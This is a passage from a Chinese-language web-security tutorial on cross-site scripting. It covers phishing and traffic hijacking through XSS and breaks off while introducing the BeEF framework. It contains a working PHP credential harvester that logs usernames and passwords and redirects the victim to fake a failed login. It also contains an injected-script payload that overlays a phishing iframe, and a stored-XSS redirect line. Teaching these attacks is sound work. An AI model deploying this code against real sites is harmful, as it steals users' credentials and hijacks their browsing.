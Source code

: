 #### ② - 利用XSS漏洞进行钓鱼和流量劫持

1. 钓鱼：利用XSS漏洞，将钓鱼页面植入到网页中，从而达到钓鱼的目的

   > 1. 制作钓鱼页面：复制原有网站登录页面的源码，并修改其中的链接，达到与真实的网页元素一致的效果
   >
   >    重点：需要使数据提交的链接与后端代码的url一致
   >
   > 2. 编写后端代码，记录钓鱼页面获取的账号和密码
   >
   >    > 示例：
   >    >
   >    > ~~~php
   >    > <? php
   >    >     $name = $_POST['user'];
   >    > 	$pwd = $_POST['password'];
   >    > 	$userpwd = $name.':'.$pwd;
   >    > 	fputs(fopen("result.txt","w"),"$userpwd"); 			// 存储获取的数据
   >    > 	header('Location:http://123.123.123.123:8080');		// 跳转到原登录页面，假装登陆失败
   >    > ~~~
   >
   > 3. 构造payload
   >
   >    `<script src=payload文件地址></script>`
   >
   >    ~~~javascript
   >    #payload.js
   >    document.body.innerHTML=('<div 
   >      style="width:100%;height:100%"> <iframe
   >      src=钓鱼页面地址 width=100% height=1000px scrolling=no frameborder=0>
   >      </iframe></div>');
   >    ~~~
   >
   >    > ![image-20210812180240749](../images/06_跨站脚本攻击漏洞/image-20210812180240749.png)

2. 流量劫持：强制性让用户访问指定的网站（利用存储型XSS）

   `<script>window.location.href="待跳转的网站"</script>`

#### ③ - BeEF的使用

BeEF-XSS是一款非常强大的web框架攻击平台，集成了许多好用的payload，kali中集成有BeEF

1. BeEF攻击浏览器的流程：

   BeEF可以生成交互payload的hook（JavaScript脚本）
